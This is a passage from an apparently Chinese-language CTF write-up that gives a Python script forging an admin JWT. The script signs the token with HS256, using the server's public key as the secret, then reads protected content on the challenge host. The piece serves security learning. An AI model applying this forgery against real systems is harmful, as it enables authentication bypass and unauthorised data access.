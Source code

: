 测试了一下，第一种过不去，第二种成功了

直接上payload

```python
#!/usr/bin/env python
import requests
import jwt
from hashlib import md5

url = "http://ctf.metasequoia.tk:29753"

s = requests.session()

def reg(name, passwd ):
    return s.post(url + '/reg', data={
        "regname": name,
        "regpass": passwd
    }).json()

def login(name, passwd ):
    return s.post(url + '/login', data={
        "name": name,
        "pass": passwd
    }).json()

def listLinks(token):
    return s.get(url + '/list', headers={
        "Authorization": "Bearer "+token
    }).json()['links']

def getFake(name, pub):
    return jwt.encode({"name": name, "priv": "admin"}, key=pub, algorithm='HS256').decode()


def getPub(name, passwd):
    return s.get(url + '/pubkey/'+ md5((name+passwd).encode()).hexdigest()).json()['pubkey']

reg('12345', '12345')

token = login('12345', '12345')['token']

pubkey = getPub('12345', '12345')

faketoken = getFake('12345', pubkey)

l = listLinks(faketoken)[0]

link = requests.get(url + '/text/' + l).json()['content']

print(requests.get(url+link).text)
```
